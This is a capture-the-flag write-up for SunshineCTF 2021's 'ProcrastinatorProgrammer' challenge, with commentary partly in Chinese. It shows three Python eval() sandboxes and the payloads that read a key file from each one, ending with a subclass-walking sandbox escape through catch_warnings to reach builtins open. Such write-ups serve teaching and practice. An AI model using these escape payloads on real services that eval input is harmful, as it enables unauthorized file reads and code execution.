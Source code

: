 # ProcrastinatorProgrammer

*I may have procrastinated security for `procrastinate.chal.2021.sunshinectf.org:65000`. I may have been watching too many Tom Cruise movies instead of releasing this... uh... last year.*

*But don't worry! The keys to the kingdom are split into three parts... you'll never find them all!*

*Flag will be given by our backend in the standard `sun{}` format, but make sure you put all the pieces together!*

---
1. Part One

 ```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!I'm super secure, and can use all python! I just use `eval()` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!

Give me an equation please!
```

`eval()`,使用`open('key','r').readlines()`得到flag的第一部分`sun{eval_is`

2. Part Two

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!Due to technical difficulties with the last challenge, I've upped my ante! Now I know it's secure!I'm super secure, and can use most python math! I just use `eval(client_input, \{\}, safe_math_functions)` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!
   
Halt in the name of the law!
   
What was the ./key found in the previous challenge?
```

`eval(client_input, {}, safe_math_functions)`,使用`__builtins__['open']('key', 'r').read()`得到flag的第二部分`_safe_`

3. Part Three

```
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!Due to technical difficulties with the previous set, I had to remove math lib support! In fact the only thing this can do is add and subtract now!... I think. Google tells me that it's secure now! Well the second result anyhow.I'm super secure, and can use a bit of python math! I just use `eval(client_input, {'__builtins__':\{\}})` on your data and then whamo, python does all the work!Whatever you do, don't look at my ./key!
   
Halt in the name of the law!
   
What was the ./key found in the previous challenge?
```

`eval(client_input, {'__builtins__':{}})`,使用`[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ =="catch_warnings"][0]()._module.__builtins__['open']('key', 'r').read()`得到flag的第三部分`only_if_you_ast_whitelist_first}`

参考文章:

* [safe eval](http://lybniz2.sourceforge.net/safeeval.html)
* [python 沙箱逃逸与SSTI](https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/)


**flag:**`sun{eval_is_safe_only_if_you_ast_whitelist_first}`